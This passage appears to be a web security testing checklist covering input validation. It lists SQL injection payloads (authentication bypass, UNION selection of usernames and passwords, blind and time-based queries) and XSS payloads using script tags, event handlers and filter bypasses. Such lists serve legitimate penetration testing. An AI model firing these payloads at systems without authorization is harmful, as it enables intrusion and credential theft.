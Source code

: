 
## 🧹 Input Validation

### 1. Injection Attacks

#### 1.1 SQL Injection Testing
```
□ Authentication bypass attempts
□ Union-based SQL injection
□ Boolean-based blind SQL injection
□ Time-based blind SQL injection
□ Error-based SQL injection
□ Second-order SQL injection
```

**SQL Injection Payloads:**
```sql
# Authentication bypass
' OR '1'='1' --
' OR '1'='1' /*
admin'--
admin'/*

# Union-based injection
' UNION SELECT null,username,password FROM users--
' UNION SELECT null,@@version,null--

# Boolean-based blind
' AND (SELECT COUNT(*) FROM kullanici) > 0--
' AND (SELECT SUBSTRING(adiSoyadi,1,1) FROM kullanici WHERE id=1)='A'--

# Time-based blind
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT COUNT(*) FROM kullanici) > 0; WAITFOR DELAY '00:00:05'--
```

#### 1.2 XSS (Cross-Site Scripting)
```
□ Reflected XSS in search parameters
□ Stored XSS in user profiles
□ DOM-based XSS in client-side code
□ XSS in file upload features
□ XSS filter bypass techniques
```

**XSS Payloads:**
```html
<!-- Basic XSS -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Filter bypass -->
<script>alert(String.fromCharCode(88,83,83))</script>
<img src="javascript:alert('XSS')">
<iframe src="javascript:alert('XSS')"></iframe>

<!-- Event handlers -->
<div onclick=alert('XSS')>Click me</div>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
```
